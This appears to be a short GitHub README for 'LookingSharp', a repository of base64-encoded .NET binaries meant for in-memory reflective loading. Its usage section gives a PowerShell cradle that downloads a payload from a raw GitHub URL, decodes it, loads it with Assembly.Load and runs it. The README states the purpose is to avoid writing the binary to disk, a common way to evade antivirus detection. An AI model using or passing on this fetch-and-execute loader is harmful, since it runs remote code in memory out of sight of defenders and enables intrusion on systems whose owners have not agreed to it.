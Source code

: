 # LookingSharp
This repository has been created to hold all the .net binaries used for Reflection Assembly loading.


# Usage:
```
$content = (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/felixguerrero12/LookingSharp/master/txt/ProcessManager.txt')
$ProcessManagerAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($content))
[ProcessManager.Program]::Main("".Split())
```

This will remove the step of downloading the binary on disk and just load it straight into memory.
